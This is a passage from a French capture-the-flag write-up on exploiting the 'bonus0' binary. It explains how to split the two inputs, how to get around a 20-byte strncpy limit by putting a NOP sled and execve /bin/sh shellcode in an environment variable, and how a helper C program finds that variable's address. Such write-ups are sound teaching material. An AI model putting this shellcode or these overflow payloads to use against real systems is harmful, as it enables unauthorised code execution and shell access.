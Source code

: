 ## Défis Rencontrés

### Défi 1: Gestion des Entrées en Deux Parties

Le programme attend deux entrées séparées, mais nos tests ont révélé des problèmes:

```bash
(python -c 'print "AAAA"'; python -c 'print "BBBB"') | ./bonus0
```

Cette approche a échoué car `read()` consommait les deux entrées d'un coup pour la première invite. Pour résoudre ce problème, nous avons dû déborder le tampon de `read()` d'une manière spécifique:

```c
  read(0, input_buffer, 4096);  // Lit jusqu'à 4096 octets depuis stdin
```

```bash
python -c "print 'A'*4095 + '\n' + 'second_input'" > /tmp/payload
```

Cela crée un fichier où la première entrée fait 4096 octets (la limite fixée pour `read()`), forçant le programme à effectuer un second appel à `read()` pour la seconde entrée.

### Défi 2: Limitation de la Taille du Shellcode

La fonction `p()` ne copie que 20 octets de notre entrée:

```c
strncpy(buffer, input_buffer, 20);
```

Notre shellcode fait 21+ octets, ce qui rend impossible de le loger dans cette limitation. Nous avons résolu ce problème en utilisant une variable d'environnement:

```bash
SHELLCODE=$(python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
# Création d'un "NOP sled" suivi du shellcode
# Le NOP sled (octets 0x90) crée une "zone d'atterrissage" qui augmente nos chances 
# d'exécuter le shellcode avec succès même si notre adresse est légèrement imprécise
# Consultez le walkthrough du niveau 2 pour plus de détails sur le shellcode
```

### Défi 3: Cohérence de l'Adresse de la Variable d'Environnement

Les variables d'environnement peuvent avoir différentes adresses d'une exécution à l'autre, rendant l'exploitation peu fiable. Nous avons créé un programme auxiliaire pour trouver l'adresse:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("SHELLCODE address: %p\n", addr);
    } else {
        printf("SHELLCODE not found\n");
    }
    return 0;
}
```
